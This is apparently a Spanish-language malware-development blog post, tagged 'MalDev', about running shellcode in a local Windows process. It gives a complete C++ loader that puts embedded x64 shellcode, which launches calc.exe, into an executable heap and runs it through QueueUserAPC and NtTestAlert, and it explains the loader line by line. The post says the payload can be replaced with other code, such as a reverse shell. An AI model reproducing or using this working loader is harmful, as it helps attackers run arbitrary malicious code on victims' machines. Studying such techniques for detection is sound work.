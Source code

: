 ```yaml
---
layout: post
title: Shellcode almacenada en el heap e inyección vía APC injection y NtTestAlert en un proceso local
author: c4rta
date: 2023-07-17
tags: [MalDev]
---
```


Esta vez vamos a almacenar la shellcode en el heap de un proceso local usando HeapCrate y HeapAlloc y la ejecutaremos con QueueUserAPC y la NTAPI indocumentada NtTestAlert

## Asynchronous Procedure Calls (APC) y QueueUserAPC()

De acuerdo a la MSDN, una APC es:

> Es una función que se ejecuta de forma asíncrona en el contexto de un subproceso en particular

Cada subproceso tiene un propia cola APC, y un subproceso debe estar en un estado de alerta para ejecutar un APC en modo de usuario, algunas formas de indicarle a un subproceso que este en modo de alerta es con las funciones ```SleepEx``` , ```SignalObjectAndWait```, ```MsgWaitForMultipleObjectsEx```, etc.

La forma en la que podemos agregar una APC a la cola APC es usando ```QueueUserAPC```, la estructura de QueueUserAPC es:

```c++
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

- ```pfnAPC``` es un puntero a la APC que se llamara cuando el subproceso realiza una operacion de alerta
- ```hThread``` es el identificador del hilo 
- ```dwData``` es un valor que funciona como un parametro a ```pfnAPC```

## Flujo de ejecucion

- Crear un heap usando ```HeapCreate```
- Se asigna un bloque de memoria con ```HeapAlloc``` del tamaño de la shellcode en el heap creado con ```HeapCreate```
- Se escribe la shellcode en el bloque de memoria del heap usando ```WriteProcessMemory```
- Se encola una APC en el subproceso actual usando ```QueueUserAPC```
- Se llama ```NtTestAlert``` para forzar la ejecucion de la APC

### Codigo

```c++
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    LPVOID shellcodeHeap = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
    WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
}
```

Pimero creamos un heap en donde le indicamos que en las opciones de asignacion tenga ```HEAP_CREATE_ENABLE_EXECUTE``` para que los bloques de memoria que se asignen permitan ejecutar codigo

```c++
HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
```

Despues asignamos un bloque de memoria donde le indicamos con ```HEAP_ZERO_MEMORY``` que la asignacion inicie con cero, y el tamaño de la asignacion sea el tamaño de la shellcode, por eso se usa ```sizeof(shellcode)```

```c++
HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
```

Despues escribimos la shellcode en el bloque de memoria del heap, se usa ```GetCurrentProcess()``` para que el identificador del proceso sea el identificador del proceso actual, el tamaño en bytes que se van a escribir es igual al tamaño de la shellcode, por eso se vuelve a usar ```sizeof(shellcode)```

```c++
WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
```

Despues declaramos ```apcRoutine``` como un puntero de tipo ```PTHREAD_START_ROUTINE``` el cual se le asignara la direccion de memoria que tiene ```shellcodeHeap```, con esto le indicariamos que la APC apunte a ```shellcodeHeap``` que es el bloque del heap que contiene la shellcode

```c++
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
```

Despues encolamos una APC a la cola APC, se le pasa ```(PAPCFUNC)apcRoutine``` para que ```apcRoutine``` sea interpretado como un puntero de tipo ```PAPCFUNC``` y sea una APC valida, tambien usamos ```GetCurrentThread()``` para que se use el identificador del hilo actual

```c++
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Y por ultimo mandamos a llamar a ```testAlert()``` para forzar la ejecion de las APC encoladas en el hilo actual.

Si compilamos y ejecutamos se ejecutara la shellcode que la cual abrira la calculadora (evidetemente puedes cambiar la shellcode para que haga otra cosa, una reverse shell por ejemplo)

### Referencias

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

[https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert](https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert)

